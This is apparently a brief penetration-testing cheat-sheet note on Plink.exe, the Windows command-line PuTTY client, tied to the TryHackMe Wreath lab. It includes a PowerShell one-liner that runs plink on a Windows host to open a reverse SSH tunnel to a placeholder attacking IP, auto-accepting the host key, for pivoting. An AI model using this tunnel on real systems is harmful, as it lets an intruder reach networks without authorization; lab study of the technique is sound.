 # Plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client6

Install PUTTY on [[Kali]]
```bash
sudo apt install putty-tools
# Found on kali at
/usr/share/windows-resources/binaries/plink.exe
```

[Download latest from](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Convert SSH Keys into PUTTY keys 
```bash
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

Use PUTTY on Windows 
```powershell
# `cmd.exe /c echo y` = non-interactive shell (Windows shells are difficult to stabilise)
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

```

## References

[THM Wreath Room](https://tryhackme.com/room/wreath)
[chiark - putt download](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
